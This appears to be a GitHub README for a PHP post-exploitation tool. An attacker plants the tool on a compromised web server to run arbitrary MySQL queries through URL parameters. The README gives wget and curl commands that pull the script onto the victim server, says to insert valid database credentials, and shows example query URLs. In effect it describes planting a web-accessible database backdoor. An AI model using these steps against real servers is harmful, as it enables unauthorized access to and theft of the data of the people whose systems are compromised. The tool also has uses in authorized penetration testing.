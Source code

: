 # MySQL-Web-Query

There are cases (in a post-exploitation scenario) where, after committing a web application and getting the shell, it is not possible to interact with MySQL due to the limitations of interaction from the shell that was obtained.

In this case **MySQL-Web-Query** can be useful.

### :hammer_and_wrench: Requirements

The compromised web server is required to use PHP technology and MySQL as DBMS.

### 📋 How to use

Transfer the script to the web server in a directory accessible by the browser:
```
wget https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php
```
or
```
curl https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php > query.php
```
<br>

**YOU MUST CHANGE THE CREDENTIALS WRITTEN IN THIS SCRIPT TO VALID MYSQL CREDENTIALS**

![image](https://user-images.githubusercontent.com/76706456/181995869-3400e6e9-c19c-4d70-883a-cf4400197ccf.png)

<br>

You can query the database through parameters inserted in the URL. **db** (database) and **q** (query) parameters must be informed. Examples:
```
http://web_server/query.php?db=mysql&q=select user();
```
![image](https://user-images.githubusercontent.com/76706456/178148420-53e2f3bb-6071-486f-900a-6e0d6f7e0582.png)
```
http://web_server/query.php?db=mysql&q=show tables;
```
![image](https://user-images.githubusercontent.com/76706456/178148558-2921f6ad-45f9-446e-95c0-7b0ee3e9f0b0.png)

